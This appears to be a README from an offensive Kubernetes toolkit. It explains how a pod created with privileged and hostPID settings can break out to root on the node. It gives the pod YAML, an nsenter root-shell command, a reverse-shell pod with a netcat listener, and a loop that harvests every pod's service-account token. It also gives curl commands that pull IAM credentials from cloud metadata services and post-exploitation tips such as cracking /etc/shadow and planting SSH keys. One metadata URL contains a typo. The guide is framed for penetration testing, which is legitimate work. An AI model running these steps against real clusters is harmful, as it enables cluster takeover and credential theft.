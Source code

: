 # You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides a path to cluster-admin. 

# Pod Creation

### Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid
  labels: 
    app: priv-and-hostpid
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]    
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-priv-and-hostpid.yaml](pod-priv-and-hostpid.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-and-hostpid.yaml  
```
#### Option 2: Create pod from github hosted yaml
```
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-priv-and-hostpid.yaml  
```

#### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-and-hostpid -- bash
```

#### Use nsenter to gain full root access on the node
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

### Or, create a reverse shell pod
[pod-priv-and-hostpid-revshell.yaml](pod-priv-and-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3112
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3112" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3112
Listening on 0.0.0.0 3112
Connection received on 10.0.0.162 42035
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there

Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test. 

Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
